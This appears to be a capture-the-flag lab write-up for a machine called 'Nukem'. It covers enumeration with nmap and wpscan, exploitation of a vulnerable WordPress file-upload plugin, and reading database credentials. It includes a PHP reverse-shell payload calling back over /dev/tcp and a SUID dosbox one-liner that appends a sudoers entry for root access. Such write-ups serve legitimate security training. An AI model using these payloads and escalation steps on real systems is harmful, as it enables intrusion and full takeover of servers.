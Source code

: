 # Nukem

### Enumeration

```
80/tcp    open  http        Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-generator: WordPress 5.5.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
|_http-title: Retro Gamming &#8211; Just another WordPress site
```

```
wpscan --url http://192.168.210.105/ --api-token [REDACTED]
...
[i] Plugin(s) Identified:

[+] simple-file-list
...
 | Version: 4.2.2 (100% confidence)
 | [!] Title: Simple File List < 4.2.3 - Unauthenticated Arbitrary File Upload RCE
...
...
```

```
$ searchsploit WordPress Simple File List
WordPress Plugin Simple File List 4.2.2 - Arbitra | php/webapps/48979.py
$ cp /usr/share/exploitdb/exploits/php/webapps/48979.py .
```

### Initial Access

We need to edit 36th line of 48979.py as follows(be careful with indentation)

```
payload = '<?php passthru("bash -i >& /dev/tcp/192.168.49.210/80 0>&1"); ?>'
```

```
/** MySQL database username */
define( 'DB_USER', 'commander' );

/** MySQL database password */
define( 'DB_PASSWORD', '[REDACTED]' );
```

```
$ ssh commander@192.168.210.105
commander: [REDACTED]
```

### PrivEsc

dosbox has SUID bit.

```
$ dosbox -c 'mount c /etc' -c 'echo commander ALL=(ALL) ALL >> C:\sudoers' -c exit
```

